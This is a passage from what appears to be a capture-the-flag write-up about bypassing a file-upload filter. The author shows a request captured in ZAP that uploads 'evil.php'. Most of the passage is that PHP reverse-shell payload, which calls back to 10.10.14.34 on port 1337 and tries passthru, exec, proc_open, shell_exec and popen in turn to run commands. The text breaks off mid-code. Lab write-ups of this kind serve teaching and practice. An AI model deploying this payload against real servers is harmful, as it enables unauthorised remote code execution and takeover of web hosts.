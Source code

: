 And try an upload, which returns `Invalid file`.

This is expected as the form specifies the upload must be in image format.

I go to ZAP to get the details, the Request data from the latest edit page is:

{% highlight php %}
-----------------------------6880877471789511041406832871
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: application/x-php
    /*<?php /**/
      @error_reporting(0);
      @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      if(!empty($dis)){
        $dis=preg_replace('/[, ]+/', ',', $dis);
        $dis=explode(',', $dis);
        $dis=array_map('trim', $dis);
      }else{
        $dis=array();
      }
      
    $ipaddr='10.10.14.34';
    $port=1337;
    if(!function_exists('CkLhPZUPboOwI')){
      function CkLhPZUPboOwI($c){
        global $dis;
        
      if (FALSE !== strpos(strtolower(PHP_OS), 'win' )) {
        $c=$c." 2>&1\n";
      }
      $EPWc='is_callable';
      $JZlmOv='in_array';
      
      if($EPWc('passthru')and!$JZlmOv('passthru',$dis)){
        ob_start();
        passthru($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      if($EPWc('exec')and!$JZlmOv('exec',$dis)){
        $o=array();
        exec($c,$o);
        $o=join(chr(10),$o).chr(10);
      }else
      if($EPWc('proc_open')and!$JZlmOv('proc_open',$dis)){
        $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);
        $o=NULL;
        while(!feof($pipes[1])){
          $o.=fread($pipes[1],1024);
        }
        @proc_close($handle);
      }else
      if($EPWc('shell_exec')and!$JZlmOv('shell_exec',$dis)){
        $o=shell_exec($c);
      }else
      if($EPWc('popen')and!$JZlmOv('popen',$dis)){
        $fp=popen($c,'r');
        $o=NULL;
        if(is_resource($fp)){
          while(!feof($fp)){
            $o.=fread($fp,1024);
          }
        }
        @pclose($fp);
      }else